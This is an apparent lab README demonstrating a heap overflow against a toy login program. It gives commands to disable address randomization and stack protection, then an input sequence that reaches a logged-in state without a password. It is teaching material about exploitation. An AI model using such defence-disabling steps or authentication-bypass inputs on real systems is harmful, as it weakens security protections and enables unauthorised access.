 # Buffer Overflow Vulnerability

The heap based attack can be demonstrated by running following steps. Let us go through them.

## Initial Setup of the Machine

To make our attack easier, we first need to disable address space
randomization, a defense against buffer overflows making guessing addresses in
the heap and stack more difficult.  To do so, we simply need to run the
following command under root privileges:

```
sudo sysctl -w kernel.randomize_va_space=0
```

A confirmation of the variable's value is printed `kernel.randomize_va_space = 0`
by the terminal. 


## Vulnerable Program

The vulnerable program is provided in the [heap.c](heap.c) file.  

```
gcc -o heap -z execstack -fno-stack-protector heap.c
```

## Exploiting the Vulnerability: Demonstration of the Buffer Overflow Attack

To demonstrate the buffer flow attack, we run the following commands:

```
./heap
```

This simply compiles and runs the [heap.c](heap.c) file. 
After this, we see the effect of heap_based overflow helping us login without actually entering the password.
```
auth bufferoverflow.net
login # not logged in yet
login 234 # not logged in yet
reset
service heapoverflow.net
service 23
login # logged in now
```






